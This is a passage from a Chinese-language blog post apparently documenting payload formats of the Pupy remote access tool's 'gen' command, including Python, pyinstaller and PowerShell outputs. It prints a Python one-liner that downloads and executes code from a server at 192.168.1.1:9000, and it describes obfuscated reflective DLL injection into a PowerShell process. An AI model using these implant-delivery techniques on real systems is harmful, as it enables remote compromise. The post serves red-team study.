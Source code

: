 如果要在Windows系统的Python环境下运行这个Python文件，Windows系统还需要安装以下模块：

- pywin32
- pycryptodome
- Crypto

**注：**

Crypto包需要从http://www.voidspace.org.uk/python/modules.shtml#pycrypto处下载

### 3.pyinst

生成与pyinstaller兼容的Python文件

命令示例：

```
gen -f pyinst
```

同`gen -f py`的区别：添加了一些头文件，便于使用pyinstaller将Python脚本转换成exe文件

在之前的文章[《本地密码查看工具LaZagne中的自定义脚本开发》](https://3gstudent.github.io/3gstudent.github.io/%E6%9C%AC%E5%9C%B0%E5%AF%86%E7%A0%81%E6%9F%A5%E7%9C%8B%E5%B7%A5%E5%85%B7LaZagne%E4%B8%AD%E7%9A%84%E8%87%AA%E5%AE%9A%E4%B9%89%E8%84%9A%E6%9C%AC%E5%BC%80%E5%8F%91/)介绍过pyinstaller的用法

### 4.py_oneliner

通过urllib库从服务器下载Python代码并执行

命令示例：

```
gen -f py_oneliner
```

在命令行输出下载执行的代码，示例：

```
python -c 'import urllib;exec urllib.urlopen("http://192.168.1.1:9000/a0py9Yz5pi/Sg11A11q2J").read()'
```

### 5.ps1

生成powershell格式的启动代码，执行时会先启动Powershell进程，然后在Powershell进程中加载dll

生成32位文件的命令示例：

```
gen -f ps1
```

这个命令将从`pupy/pupy/payload_templates/`读取dll的模板文件，添加配置信息和经过混淆的[Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)代码，最终实现在Powershell进程中加载dll

**注：**

上述命令对应的模板文件名称为pupyx86.dll
